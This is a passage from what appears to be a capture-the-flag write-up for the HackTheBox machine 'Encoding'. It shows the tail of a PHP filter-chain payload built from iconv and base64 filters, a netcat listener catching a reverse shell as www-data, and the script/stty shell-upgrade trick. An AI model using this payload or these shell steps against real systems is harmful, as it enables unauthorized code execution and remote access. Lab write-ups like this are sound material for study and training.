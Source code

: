 nv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
    

I’ll replace the filters in Repeater, and start `nc` listening. On sending, I
get a shell as www-data:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.198 35760
    bash: cannot set terminal process group (800): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@encoding:~/image/actions$
    

I’ll upgrade the shell with the [script / stty
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    www-data@encoding:~/image/actions$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    sh: 0: getcwd() failed: No such file or directory
    shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
    www-data@encoding:$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@encoding:$ 
    